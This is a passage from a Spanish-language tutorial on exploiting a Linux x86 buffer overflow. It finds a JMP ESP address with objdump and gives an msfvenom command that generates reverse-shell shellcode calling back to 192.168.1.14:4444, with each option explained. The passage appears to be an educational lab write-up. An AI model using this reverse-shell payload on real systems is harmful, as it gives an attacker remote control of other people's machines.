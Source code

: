 ## Pointer (JMP ESP)

Para buscar la dirección de memoria que ejecute esta instrucción, podemos hacer uso de la utilidad `objdump`.

![JMP ESP](/assets/img/bof/jmp-esp-1.png)

Como podes ver, la dirección de memoria que apunta a la instrucción `jmp esp` es `0x08049d55`.

> El comando `objdump` es una herramienta de línea de comandos que se utiliza para mostrar información detallada sobre archivos binarios, como ejecutables y bibliotecas. El uso típico incluye la visualización del código ensamblador, secciones, símbolos y otros detalles del archivo binario.
{: .prompt-info }

`-D`: La opción que indica a `objdump` que muestre el código ensamblador (disassembled code).

## ShellCode

Como ultimo punto, solo resta generar nuestro shellcode. Para ello utilizaremos `msfvenom` indicando como payload `linux/x86/shell_reverse_tcp` de la siguiente forma:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.14 LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v shellcode
```

- **`msfvenom`**: Este es el comando principal de la herramienta `msfvenom` en Metasploit, que se utiliza para la generación de payloads.
- **`-p linux/x86/shell_reverse_tcp`**: Especifica el tipo de payload que se generará. En este caso, es un reverse shell de TCP para sistemas Linux con arquitectura x86.
- **`LHOST=192.168.1.14`**: Especifica la dirección IP del host que escuchará las conexiones del payload. En este caso, `192.168.1.14` es la dirección IP del host que recibirá la conexión inversa.
- **`LPORT=4444`**: Especifica el puerto en el que el payload enviará la conexión inversa. En este caso, `4444` es el puerto utilizado.
- **`EXITFUNC=thread`**: Indica la función que se utilizará para la salida del programa cuando el payload finalice. En este caso, se utiliza `thread` como método de salida.
- **`-b "\x00"`**: Especifica los bytes prohibidos o badchars que no deben incluirse en el shellcode. En este caso, se están excluyendo los bytes `\x00` (bytes nulos).
- **`-f python`**: Especifica el formato de salida del payload. En este caso, el formato del payload es Python.
- **`-v shellcode`**: Indica que la salida deseada es el shellcode (código máquina) generado por `msfvenom`, y se almacena en una variable llamada `shellcode`.

![msfvenom Linux payload](/assets/img/bof/msfvenom-linux-payload.png)
